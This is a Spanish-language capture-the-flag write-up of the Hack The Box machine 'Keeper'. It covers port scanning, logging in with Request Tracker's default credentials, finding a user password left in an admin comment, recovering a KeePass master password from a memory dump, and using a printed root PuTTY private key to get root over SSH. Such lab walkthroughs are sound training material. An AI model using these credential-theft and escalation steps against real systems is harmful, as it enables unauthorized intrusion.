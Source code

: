 # Reconocimiento
---

Para iniciar la evaluación de la máquina **Keeper** en Hack The Box, se comenzó con un escaneo de puertos utilizando Nmap para identificar los servicios disponibles en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG ports
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:18 -03
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.227 [65535 ports]
Discovered open port 22/tcp on 10.10.11.227
Discovered open port 80/tcp on 10.10.11.227
Completed SYN Stealth Scan at 00:19, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-16 00:18:55 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
           Raw packets sent: 73909 (3.252MB) | Rcvd: 73532 (2.941MB)
```

El escaneo reveló la existencia de los puertos 22 (SSH) y 80 (HTTP) abiertos en la máquina.

```bash
nmap -p 22,80 -n -Pn -sCV 10.10.11.227 -oN openPorts
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:21 -03
Nmap scan report for 10.10.11.227
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

El análisis detallado de los servicios en estos puertos indicó que la máquina estaba ejecutando OpenSSH 8.9p1 en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80.

Además, se modificó el archivo `/etc/hosts` para asociar la dirección IP de la máquina objetivo con el nombre de dominio `tickets.keeper.htb`.

Se procedió a acceder al sitio web en [http://10.10.11.227](http://10.10.11.227/).

```bash
nvim /etc/hosts
<ip-victima>  tickets.keeper.htb
```

[http://tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

# Descubrimiento de la vulnerabilidad
---

Al explorar **Request Tracker**, se descubrieron credenciales predeterminadas para el usuario root:

[Request Tracker Default credentials](https://docs.bestpractical.com/rt/4.4.4/README.html)

```bash
NOTE: The default credentials for RT are:
		User: root
		Pass: password
```

Ingresando al panel de administración en [http://tickets.keeper.htb/rt/Admin/Users/](http://tickets.keeper.htb/rt/Admin/Users/), se encontraron dos usuarios: `lnorgaard` y `root`.

| #   | Name      | Real Name     | Email Address        | Status  |
| --- | --------- | ------------- | -------------------- | ------- |
| 27  | lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb | Enabled |
| 14  | root      | Enoch Root    | root@localhost       | Enabled |

En el panel de edición del usuario `lnorgaard` [http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27](http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27) se encuentra un comentario indicando que la contraseña inicial es `Welcome2023!`.

```
New user. Initial password set to Welcome2023!
```

Se procede a entablar una conexión por SSH con el servidor como el usuario `lnorgaard`.

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@<ip-victima>
```

## User Flag
---

Se accedió exitosamente al sistema como `lnorgaard` utilizando la contraseña encontrada. La flag del usuario se obtuvo ejecutando el siguiente comando:

> [!IMPORTANT]
> User flag `cat /home/lnorgaard/user.txt`

# Escalada de privilegios
---

Se procedió a realizar una escalada de privilegios para obtener acceso a la cuenta root. Se estableció un servidor con **python3** para poder descargar el archivo `RT30000.zip` a la máquina atacante.

```bash
python3 -m http.server <puerto>
KeePassDumpFull.dmp  RT30000.zip  k.ppk  passcodes.kdbx
```

Se descargó el archivo `RT30000.zip` en la máquina atacante y se descomprimió con los siguientes comandos:

```bash
wget http://<ip-victima>/<puerto>/RT30000.zip
unzip RT30000.zip
```

Utilizando la herramienta [KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file), se extrajo una posible contraseña.

[Setup KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file#setup)

Para configurar el KeePass se necesitó instalar lo siguiente:
[Download .NET For Windows](https://dotnet.microsoft.com/en-us/download)
[Descargar .NET 7.0 Runtime](https://dotnet.microsoft.com/es-es/download/dotnet/7.0/runtime?cid=getdotnetcore&os=windows&arch=x64)

Se ejecutó el programa `dotnet` para extraer la posible contraseña
`dotnet run KeePassDumpFull.dmp`

```bash
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Tras una búsqueda en Google de la posible contraseña encontrada se determinó que la contraseña está escrita en idioma danés.
[Resultados de la búsqueda en Google de M}dgrød med fløde](https://www.google.com/search?q=M%7Ddgr%C3%B8d+med+fl%C3%B8de&rlz=1C1CHBF_esAR1082AR1082&oq=M%7Ddgr%C3%B8d+med+fl%C3%B8de&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7Mg4IARAAGAoYQxiABBiKBdIBBzc4MWowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)
`rødgrød med fløde`

Se descargó [KeePassXC](https://keepassxc.org/) y se utilizó para abrir el archivo `passcodes.kdbx` con la contraseña obtenida.
[https://keepassxc.org/download/#linux](https://keepassxc.org/download/#linux)

```bash
keepassxc passcodes.kdbx
rødgrød med fløde
```

En el apartado **Network** se encuentra un usuario **root** y se visualiza una clave privada la que copiamos y guardamos en un archivo con extensión **.ppk**

key.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```

Para acceder al sistema como el usuario root y haciendo uso de la clave encontrada en el gestor de contraseñas se necesita convertir la clave privada.

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
Seguir las instrucciones del README.md para instalar la última versión de `putty`

```bash
cmake .
cmake --build .
cmake --build . --target install
```

Al instalar la versión 0.79 (al día de escrito este write-up) la última versión, se puede convertir el archivo key.ppk a un archivo **PEM RSA private key**. Puede que versiones anteriores a esta arrojen un error en la conversión.

```bash
puttygen key.ppk -O private-openssh -o root.pem
```

Accedemos al sistema mediante SSH haciendo uso de la clave privada recientemente convertida.

```bash
ssh -i root.pem root@10.10.11.227
```

## Root Flag
---

Con privilegios de root, se localizó la root flag en el directorio `/root`

> [!IMPORTANT]
> Root flag `cat /root/root.txt`
